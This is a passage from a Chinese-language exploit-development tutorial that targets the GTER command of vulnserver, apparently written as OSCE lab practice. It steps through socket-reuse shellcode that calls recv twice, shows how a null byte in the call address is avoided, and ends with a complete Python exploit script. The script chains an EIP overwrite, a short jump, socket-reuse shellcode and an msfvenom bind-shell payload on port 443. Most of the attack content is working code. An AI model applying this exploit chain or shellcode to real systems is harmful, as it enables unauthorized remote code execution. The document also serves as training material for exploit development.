

我们想在 recv buffer 参数所在的地址`0x172F9DC`上继续我们的执行流程。



为此，我们可以简单地将`ESP`推送到堆栈上，并将其弹出到`EBX`中，通过将`0x78`添加到`EBX`并将调整后的`EBX`推送到堆栈上，我们可以更新`the ESP`地址以指向`recv`缓冲区参数。然后，最后，我们将把当前保存文件描述符(在我们的例子中是 58)的值的`ESI`寄存器推到堆栈上，以完成`recv`函数。

```
**### recv - Buf & File Descriptor (ASM)**PUSH ESP            **; Push the current ESP onto the stack**
POP EBX             **; Pop the ESP in EBX register**
ADD EBX, 0x78       **; Adjust the ESP value by adding 0x78**
PUSH EBX            **; recv parameter - char *buf**
PUSH ESI            **; recv parameter - SOCKET s (File Descriptor)**
```



```
**### recv - Buf & File Descriptor (Shellcode Cont'd)**\x54                  # PUSH ESP
\x58                  # POP EAX
\x66\x05\x88\x01      # ADD AX, 0x188 
\xFF\x30              # PUSH [EAX]
\x5E                  # POP ESI
\x83\xEC\x74          # SUB ESP, 0x74
\x33\xDB              # XOR EBX, EBX
\x53                  # PUSH EBX
\x80\xC7\x02          # ADD BH, 0x2
\x53                  # PUSH EBX **\x54                  # PUSH ESP
\x5B                  # POP EBX
\x83\xC3\x78          # ADD EBX, 0x78
\x53                  # PUSH EBX
\x56                  # PUSH ESI**
```

## 调用第一接收函数

最后，我们现在需要在`0x0040252C`处调用`<JMP.&WS2_32.recv>`函数。


我们可以简单地将该地址形成堆栈，但是我们可以看到一个问题，位置是从`\x00`开始的。正如@rastating 建议的那样，我们可以像下面这样绕过空字节:

```
**### 1st <JMP.&WS2_32.recv> (ASM)**MOV EBX, 0x40252C11     **; Use this address instead of 0x0040252C**
SHR EBX, 8              **; Shift EAX to the right by 8 bits = 1 byte**
CALL EBX                **; Call EAX**
```



```
**### 1st <JMP.&WS2_32.recv> (Shellcode Cont'd)**\x54                  # PUSH ESP
\x58                  # POP EAX
\x66\x05\x88\x01      # ADD AX, 0x188 
\xFF\x30              # PUSH [EAX]
\x5E                  # POP ESI
\x83\xEC\x74          # SUB ESP, 0x74
\x33\xDB              # XOR EBX, EBX
\x53                  # PUSH EBX
\x80\xC7\x02          # ADD BH, 0x2
\x53                  # PUSH EBX\x54                  # PUSH ESP
\x5B                  # POP EBX
\x83\xC3\x78          # ADD EBX, 0x78
\x53                  # PUSH EBX
\x56                  # PUSH ESI
**\xBB\x11\x2C\x25\x40  # MOV EBX, 0x40252C11
\xC1\xEB\x08          # SHR EBX, 8 
\xFF\xD3              # CALL EBX   ** 
```

一旦我们用最后的加法单步执行了操作码，我们就可以用我们的修改成功地调用`WS2_32.recv`函数。



## 调用第二接收函数

因为我们将我们的 bind shell 有效负载作为套接字重用有效负载发送，所以我们需要进行第二次 recv 调用来正确地触发我们的 bind shell。

```
**### 2nd <JMP.&WS2_32.recv> (ASM)**XOR ECX, ECX    **; Zero out ECX**
PUSH ECX        **; recv flags parameter = 0**
PUSH EAX        **; recv len parameter = 0x200**
PUSH EBX        **; recv buf parameter**
PUSH ESI        **; recv SOCKET s parameter**
CALL EBX        **; Call <JMP.&WS2_32.recv>**
```



```
**### 2nd <JMP.&WS2_32.recv> (Shellcode Cont'd)**\x54                  # PUSH ESP
\x58                  # POP EAX
\x66\x05\x88\x01      # ADD AX, 0x188 
\xFF\x30              # PUSH [EAX]
\x5E                  # POP ESI
\x83\xEC\x74          # SUB ESP, 0x74
\x33\xDB              # XOR EBX, EBX
\x53                  # PUSH EBX
\x80\xC7\x02          # ADD BH, 0x2
\x53                  # PUSH EBX\x54                  # PUSH ESP
\x5B                  # POP EBX
\x83\xC3\x78          # ADD EBX, 0x78
\x53                  # PUSH EBX
\x56                  # PUSH ESI
\xBB\x11\x2C\x25\x40  # MOV EBX, 0x40252C11
\xC1\xEB\x08          # SHR EBX, 8 
\xFF\xD3              # CALL EBX
**\x33\xC9              # XOR ECX, ECX
\x51                  # PUSH ECX
\x50                  # PUSH EAX
\x53                  # PUSH EBX
\x56                  # PUSH ESI
\xFF\xD3              # CALL EBX**
```

# 第三阶段外壳代码(绑定外壳)

我们都设置了第二阶段的套接字重用外壳代码。让我们用 msfvenom 创建一个绑定 shell，并用我们的 PoC 脚本更新它。

## 最终利用

```
**###** [**Final_gter.py**](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/GTER%20-%20EIP%20Overwrite/final_gter.py) **(Source by bigb0ss)**import socket
import struct
import os
import sys
import timevuln_command = "GTER "
crash = 160
offset = 151
eip = struct.pack("<I", 0x62501205)     **# JMP ESP****# 1st Stage Shellcode (Short JMP)**
jmp_back = "\x54\x59\x83\xE9\x64\xFF\xE1"**# 2nd Stage Shellcode (Socket Reuse Exploit)**
socket_reuse = ""
socket_reuse += "\x54"                  **# PUSH ESP**
socket_reuse += "\x58"                  **# POP EAX**
socket_reuse += "\x66\x05\x88\x01"      **# ADD AX, 0x188** 
socket_reuse += "\xFF\x30"              **# PUSH [EAX]**
socket_reuse += "\x5E"                  **# POP ESI**
socket_reuse += "\x83\xEC\x74"          **# SUB ESP, 0x74**
socket_reuse += "\x33\xDB"              **# XOR EBX, EBX**
socket_reuse += "\x53"                  **# PUSH EBX**
socket_reuse += "\x80\xC7\x02"          **# ADD BH, 0x2**
socket_reuse += "\x53"                  **# PUSH EBX**
socket_reuse += "\x54"                  **# PUSH ESP**
socket_reuse += "\x5B"                  **# POP EBX**
socket_reuse += "\x83\xC3\x78"          **# ADD EBX, 0x78**
socket_reuse += "\x53"                  **# PUSH EBX**
socket_reuse += "\x56"                  **# PUSH ESI**
socket_reuse += "\xBB\x11\x2C\x25\x40"  **# MOV EBX, 0x40252C11**
socket_reuse += "\xC1\xEB\x08"          **# SHR EBX, 8** 
socket_reuse += "\xFF\xD3"              **# CALL EBX**
socket_reuse += "\x33\xC9"             ** # XOR ECX, ECX**
socket_reuse += "\x51"                  **# PUSH ECX**
socket_reuse += "\x50"                  **# PUSH EAX**
socket_reuse += "\x53"                  **# PUSH EBX**
socket_reuse += "\x56"                  **# PUSH ESI**
socket_reuse += "\xFF\xD3"              **# CALL EBX****# 3rd Stage Shellcode (Bind Shell) - Port 443 (355 Bytes)**
buf =  ""
buf += "\xda\xc8\xb8\xaa\xa0\x38\x73\xd9\x74\x24\xf4\x5a\x2b"
buf += "\xc9\xb1\x53\x31\x42\x17\x83\xc2\x04\x03\xe8\xb3\xda"
buf += "\x86\x10\x5b\x98\x69\xe8\x9c\xfd\xe0\x0d\xad\x3d\x96"
buf += "\x46\x9e\x8d\xdc\x0a\x13\x65\xb0\xbe\xa0\x0b\x1d\xb1"
buf += "\x01\xa1\x7b\xfc\x92\x9a\xb8\x9f\x10\xe1\xec\x7f\x28"
buf += "\x2a\xe1\x7e\x6d\x57\x08\xd2\x26\x13\xbf\xc2\x43\x69"
buf += "\x7c\x69\x1f\x7f\x04\x8e\xe8\x7e\x25\x01\x62\xd9\xe5"
buf += "\xa0\xa7\x51\xac\xba\xa4\x5c\x66\x31\x1e\x2a\x79\x93"
buf += "\x6e\xd3\xd6\xda\x5e\x26\x26\x1b\x58\xd9\x5d\x55\x9a"
buf += "\x64\x66\xa2\xe0\xb2\xe3\x30\x42\x30\x53\x9c\x72\x95"
buf += "\x02\x57\x78\x52\x40\x3f\x9d\x65\x85\x34\x99\xee\x28"
buf += "\x9a\x2b\xb4\x0e\x3e\x77\x6e\x2e\x67\xdd\xc1\x4f\x77"
buf += "\xbe\xbe\xf5\xfc\x53\xaa\x87\x5f\x3c\x1f\xaa\x5f\xbc"
buf += "\x37\xbd\x2c\x8e\x98\x15\xba\xa2\x51\xb0\x3d\xc4\x4b"
buf += "\x04\xd1\x3b\x74\x75\xf8\xff\x20\x25\x92\xd6\x48\xae"
buf += "\x62\xd6\x9c\x5b\x6a\x71\x4f\x7e\x97\xc1\x3f\x3e\x37"
buf += "\xaa\x55\xb1\x68\xca\x55\x1b\x01\x63\xa8\xa4\x2c\xcf"
buf += "\x25\x42\x44\x3f\x60\xdc\xf0\xfd\x57\xd5\x67\xfd\xbd"
buf += "\x4d\x0f\xb6\xd7\x4a\x30\x47\xf2\xfc\xa6\xcc\x11\x39"
buf += "\xd7\xd2\x3f\x69\x80\x45\xb5\xf8\xe3\xf4\xca\xd0\x93"
buf += "\x95\x59\xbf\x63\xd3\x41\x68\x34\xb4\xb4\x61\xd0\x28"
buf += "\xee\xdb\xc6\xb0\x76\x23\x42\x6f\x4b\xaa\x4b\xe2\xf7"
buf += "\x88\x5b\x3a\xf7\x94\x0f\x92\xae\x42\xf9\x54\x19\x25"
buf += "\x53\x0f\xf6\xef\x33\xd6\x34\x30\x45\xd7\x10\xc6\xa9"
buf += "\x66\xcd\x9f\xd6\x47\x99\x17\xaf\xb5\x39\xd7\x7a\x7e"
buf += "\x59\x3a\xae\x8b\xf2\xe3\x3b\x36\x9f\x13\x96\x75\xa6"
buf += "\x97\x12\x06\x5d\x87\x57\x03\x19\x0f\x84\x79\x32\xfa"
buf += "\xaa\x2e\x33\x2f"payload = ""
payload += vuln_command
payload += "\x90" * 55             **# Start location of jmp_back**
payload += socket_reuse
payload += "A" * (offset - 55 - len(socket_reuse))
payload += eip
payload += jmp_back
payload += "C" * 40print "[+] Sending buffer (Size: %d)" % len(payload)s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 9999))
print(s.recv(1024))
s.send(payload)print "[+] Sent Socket_reuse Payload... Wait for 5 seconds..."time.sleep(5)
s.send(buf + "\x90" * (512 - len(buf)))print "[+] Bind Shell Payload Sent!"s.close()
```

一旦我们运行了`final_gter.py`脚本，我们就可以成功地在端口 443 上打开 bind shell。



最终利用

# 结论

概括一下:

1.  我们模糊了 vulnserver `GTER`命令
2.  找到了`GTER`有漏洞命令的入口点
3.  找到控制`EIP`覆盖的偏移量
4.  找到了`JMP ESP`地址
5.  **【第一阶段外壳代码】**引入第一阶段外壳代码，将 JMP 缩短到“A”s 的更大空间之上
6.  **【第二阶段 shell code】**接下来，由于缺乏空间来引入我们的有效载荷(如 bind shell)，使用了 Socket Reuse Exploit 来找到足够的空间来放置我们的有效载荷。
7.  **【第三阶段外壳代码】**最后，引入了绑定外壳有效负载来获得外壳访问。

希望你也从中学到了一些东西。感谢阅读！

